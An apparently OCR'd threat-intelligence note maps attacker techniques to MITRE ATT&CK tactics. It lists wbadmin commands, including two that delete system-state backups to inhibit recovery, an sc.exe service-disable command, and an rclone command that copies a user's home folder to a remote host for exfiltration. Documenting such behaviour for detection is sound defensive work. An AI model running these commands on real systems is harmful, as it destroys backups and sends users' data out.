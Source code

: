 ```markdown
## Tactic: Impact

### Technique: Inhibit System Recovery

Using the command-line utility `wbadmin` to delete and disable the backup.

#### Commands:

- **Create backup of F drive and backup on E drive:**
  ```bash
  wbadmin start backup -backupTarget:E: -include:F: -allCritical –quiet
  ```

- **Create backup of multiple folders:**
  ```bash
  wbadmin start backup –backupTarget:e: -include:c:\docs\,c:\backup –vsscopy
  ```

- **Create backup to shared network folder:**
  ```bash
  wbadmin start backup –backupTarget:\\srv1\backup -include:c:\docs\,c:\backup
  ```

- **Create auto backup on scheduled time:**
  ```bash
  wbadmin enable backup -include:c:\docs\* -addtarget:e: -allCritical -schedule:00:00
  ```

- **List available backups:**
  ```bash
  wbadmin get versions
  ```

- **Delete the backup:**
  ```bash
  wbadmin delete systemstatebackup
  ```

- **Delete the oldest backup copy:**
  ```bash
  wbadmin delete systemstatebackup –backupTarget:e: –deleteOldest -quiet
  ```

#### Process Chain:
```
Svchost.exe > cmd.exe > cmd.exe > wbadmin.exe, net.exe (Discovery Commands)
```

---

## Tactic: Impact, Persistence

### Technique: Service Stop, Windows Service

#### Commands:
- **Disable service using `sc.exe`:**
  ```bash
  sc.exe disable service
  ```

#### Temp folder files:
```
appdata/local/temp/*
3.bat
5.bat
Kasf.bat
```

---

## Tactic: Collection

### Technique: Local Data Staging

- **Remote file transfer tool `rclone` communicating:**
  ```bash
  C:\Users\jamesmurphy\AppData\Local\Temp\rclone.exe copy C:\Users\Jamesmurphy\ remote2:/home/cyborgbob/Documents/MegaTraining/FileCollection/Rclone/
  ```
```
